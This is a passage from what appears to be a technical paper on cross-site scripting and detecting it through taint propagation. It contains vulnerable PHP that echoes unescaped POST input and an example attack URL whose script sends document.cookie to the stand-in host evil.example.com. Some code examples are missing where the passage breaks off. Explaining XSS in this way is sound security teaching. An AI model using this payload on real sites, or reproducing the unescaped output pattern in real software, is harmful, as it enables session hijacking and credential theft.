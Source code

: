\begin{phpcode}
$output = 'Thank you for sending an e-mail to ' . $_POST['email'] . '.';
\end{phpcode}

The URL used by an attacker then could look like this:

\begin{textcode}
http://example.com/blog.php?email=<script>image=new Image();
  image.src="http://evil.example.com/?c="+document.cookie</script>
\end{textcode}

This results in sending the current cookies to a (potentially) malicious server, allowing an attacker to hijack the user's current session.

XSS opens the gates to many kinds of attacks. For example, it is possible to read the passwords from a login form after they have automatically been filled in by the browser's password storage. It also allows reading the clipboard content and sending it to another server.


\subsection{Persistent XSS}
\label{persistent-xss}
Persistent cross-site scripting (persistent XSS) is a variant of the XSS vulnerability. It refers to the case when untrusted data is first stored in the file system or database, and some other part of the application then uses the stored data for output, thus inserting the malicious data in the output even if the page is loaded from a clean URL. This is a lot harder to find via tainted object propagation due to the database being between the source and the sink, causing the source and the sink to come into action during separate requests. One way to make this detectable would be to mark data from the database as basically untrusted, which however might increase the number of false positives.

This is an example of vulnerable code:


An attacker could use the post submission form and enter a title like this:

